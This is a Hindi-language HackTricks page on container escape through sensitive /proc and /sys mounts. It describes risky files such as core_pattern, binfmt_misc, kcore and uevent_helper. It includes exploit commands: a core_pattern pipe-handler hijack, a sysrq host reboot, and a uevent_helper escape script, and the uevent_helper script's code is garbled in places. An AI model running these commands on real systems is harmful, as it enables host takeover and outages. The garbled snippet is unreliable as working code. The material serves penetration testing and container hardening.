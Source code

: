 # Sensitive Mounts

{{#include ../../../../banners/hacktricks-training.md}}

`/proc` और `/sys` का उचित namespace isolation के बिना खुलासा महत्वपूर्ण सुरक्षा जोखिमों को जन्म देता है, जिसमें हमले की सतह का विस्तार और जानकारी का खुलासा शामिल है। ये निर्देशिकाएँ संवेदनशील फ़ाइलें रखती हैं जो, यदि गलत तरीके से कॉन्फ़िगर की गईं या किसी अनधिकृत उपयोगकर्ता द्वारा एक्सेस की गईं, तो कंटेनर से भागने, होस्ट में संशोधन, या आगे के हमलों में मदद करने वाली जानकारी प्रदान कर सकती हैं। उदाहरण के लिए, `-v /proc:/host/proc` को गलत तरीके से माउंट करना AppArmor सुरक्षा को बायपास कर सकता है, जिससे `/host/proc` असुरक्षित रह जाता है।

**आप प्रत्येक संभावित vuln के बारे में और विवरण पा सकते हैं** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**।**

## procfs Vulnerabilities

### `/proc/sys`

यह निर्देशिका कर्नेल वेरिएबल्स को संशोधित करने की अनुमति देती है, आमतौर पर `sysctl(2)` के माध्यम से, और इसमें कई उपनिर्देशिकाएँ शामिल हैं:

#### **`/proc/sys/kernel/core_pattern`**

- [core(5)](https://man7.org/linux/man-pages/man5/core.5.html) में वर्णित।
- कोर-फ़ाइल निर्माण पर निष्पादित करने के लिए एक प्रोग्राम को परिभाषित करने की अनुमति देता है, जिसमें पहले 128 बाइट्स तर्क के रूप में होते हैं। यदि फ़ाइल एक पाइप `|` से शुरू होती है तो यह कोड निष्पादन की ओर ले जा सकता है।
- **परीक्षण और शोषण उदाहरण**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Test write access
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Set custom handler
sleep 5 && ./crash & # Trigger handler
```

#### **`/proc/sys/kernel/modprobe`**

- [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) में विस्तृत।
- कर्नेल मॉड्यूल लोडर का पथ रखता है, जिसे कर्नेल मॉड्यूल लोड करने के लिए बुलाया जाता है।
- **एक्सेस जांचने का उदाहरण**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # Check access to modprobe
```

#### **`/proc/sys/vm/panic_on_oom`**

- [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) में संदर्भित।
- एक वैश्विक ध्वज जो नियंत्रित करता है कि क्या कर्नेल पैनिक करता है या OOM स्थिति होने पर OOM किलर को बुलाता है।

#### **`/proc/sys/fs`**

- [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) के अनुसार, फ़ाइल प्रणाली के बारे में विकल्प और जानकारी रखता है।
- लेखन पहुंच विभिन्न सेवा से वंचित हमलों को सक्षम कर सकती है।

#### **`/proc/sys/fs/binfmt_misc`**

- उनके जादुई संख्या के आधार पर गैर-देशी बाइनरी प्रारूपों के लिए व्याख्याकारों को पंजीकृत करने की अनुमति देता है।
- यदि `/proc/sys/fs/binfmt_misc/register` लिखा जा सकता है तो यह विशेषाधिकार वृद्धि या रूट शेल एक्सेस की ओर ले जा सकता है।
- प्रासंगिक शोषण और व्याख्या:
- [Poor man's rootkit via binfmt_misc](https://github.com/toffan/binfmt_misc)
- गहन ट्यूटोरियल: [Video link](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Others in `/proc`

#### **`/proc/config.gz`**

- यदि `CONFIG_IKCONFIG_PROC` सक्षम है तो कर्नेल कॉन्फ़िगरेशन प्रकट कर सकता है।
- चल रहे कर्नेल में कमजोरियों की पहचान करने के लिए हमलावरों के लिए उपयोगी।

#### **`/proc/sysrq-trigger`**

- Sysrq कमांड को बुलाने की अनुमति देता है, संभावित रूप से तत्काल सिस्टम रिबूट या अन्य महत्वपूर्ण क्रियाएँ कर सकता है।
- **होस्ट को रिबूट करने का उदाहरण**:

```bash
echo b > /proc/sysrq-trigger # Reboots the host
```

#### **`/proc/kmsg`**

- कर्नेल रिंग बफर संदेशों को उजागर करता है।
- कर्नेल शोषण, पते के रिसाव में मदद कर सकता है, और संवेदनशील सिस्टम जानकारी प्रदान कर सकता है।

#### **`/proc/kallsyms`**

- कर्नेल द्वारा निर्यातित प्रतीकों और उनके पते की सूची बनाता है।
- कर्नेल शोषण विकास के लिए आवश्यक, विशेष रूप से KASLR को पार करने के लिए।
- पता जानकारी `kptr_restrict` को `1` या `2` पर सेट करने के साथ प्रतिबंधित है।
- [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) में विवरण।

#### **`/proc/[pid]/mem`**

- कर्नेल मेमोरी डिवाइस `/dev/mem` के साथ इंटरफेस करता है।
- ऐतिहासिक रूप से विशेषाधिकार वृद्धि हमलों के प्रति संवेदनशील।
- [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html) पर अधिक।

#### **`/proc/kcore`**

- सिस्टम की भौतिक मेमोरी को ELF कोर प्रारूप में दर्शाता है।
- पढ़ने से होस्ट सिस्टम और अन्य कंटेनरों की मेमोरी सामग्री लीक हो सकती है।
- बड़ी फ़ाइल का आकार पढ़ने की समस्याओं या सॉफ़्टवेयर क्रैश का कारण बन सकता है।
- [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/) में विस्तृत उपयोग।

#### **`/proc/kmem`**

- कर्नेल वर्चुअल मेमोरी का प्रतिनिधित्व करने के लिए `/dev/kmem` के लिए वैकल्पिक इंटरफेस।
- पढ़ने और लिखने की अनुमति देता है, इसलिए कर्नेल मेमोरी का प्रत्यक्ष संशोधन।

#### **`/proc/mem`**

- भौतिक मेमोरी का प्रतिनिधित्व करने के लिए `/dev/mem` के लिए वैकल्पिक इंटरफेस।
- पढ़ने और लिखने की अनुमति देता है, सभी मेमोरी का संशोधन वर्चुअल से भौतिक पते को हल करने की आवश्यकता है।

#### **`/proc/sched_debug`**

- प्रक्रिया शेड्यूलिंग जानकारी लौटाता है, PID namespace सुरक्षा को बायपास करता है।
- प्रक्रिया नाम, आईडी और cgroup पहचानकर्ताओं को उजागर करता है।

#### **`/proc/[pid]/mountinfo`**

- प्रक्रिया के माउंट namespace में माउंट बिंदुओं के बारे में जानकारी प्रदान करता है।
- कंटेनर `rootfs` या छवि के स्थान को उजागर करता है।

### `/sys` Vulnerabilities

#### **`/sys/kernel/uevent_helper`**

- कर्नेल डिवाइस `uevents` को संभालने के लिए उपयोग किया जाता है।
- `/sys/kernel/uevent_helper` में लिखने से `uevent` ट्रिगर होने पर मनमाने स्क्रिप्ट को निष्पादित किया जा सकता है।
- **शोषण का उदाहरण**: %%%bash

#### एक पेलोड बनाता है

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

#### कंटेनर के लिए OverlayFS माउंट से होस्ट पथ खोजता है

host*path=$(sed -n 's/.*\perdir=(\[^,]\_).\*/\1/p' /etc/mtab)

#### दुर्भावनापूर्ण सहायक के लिए uevent_helper सेट करता है

echo "$host_path/evil-helper" > /sys/kernel/uevent_helper

#### एक uevent को ट्रिगर करता है

echo change > /sys/class/mem/null/uevent

#### आउटपुट पढ़ता है

cat /output %%%

#### **`/sys/class/thermal`**

- तापमान सेटिंग्स को नियंत्रित करता है, संभावित रूप से DoS हमलों या भौतिक क्षति का कारण बनता है।

#### **`/sys/kernel/vmcoreinfo`**

- कर्नेल पते लीक करता है, संभावित रूप से KASLR को खतरे में डालता है।

#### **`/sys/kernel/security`**

- `securityfs` इंटरफेस को रखता है, जो AppArmor जैसे Linux सुरक्षा मॉड्यूल की कॉन्फ़िगरेशन की अनुमति देता है।
- पहुंच एक कंटेनर को अपने MAC सिस्टम को निष्क्रिय करने में सक्षम कर सकती है।

#### **`/sys/firmware/efi/vars` और `/sys/firmware/efi/efivars`**

- NVRAM में EFI वेरिएबल्स के साथ इंटरैक्ट करने के लिए इंटरफेस को उजागर करता है।
- गलत कॉन्फ़िगरेशन या शोषण से लैपटॉप या अनबूटेबल होस्ट मशीनें बर्बाद हो सकती हैं।

#### **`/sys/kernel/debug`**

- `debugfs` कर्नेल के लिए "कोई नियम नहीं" डिबगिंग इंटरफेस प्रदान करता है।
- इसकी अनियंत्रित प्रकृति के कारण सुरक्षा मुद्दों का इतिहास है।

### References

- [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
- [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc_group_understanding_hardening_linux_containers-1-1.pdf)
- [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container_whitepaper.pdf)

{{#include ../../../../banners/hacktricks-training.md}}
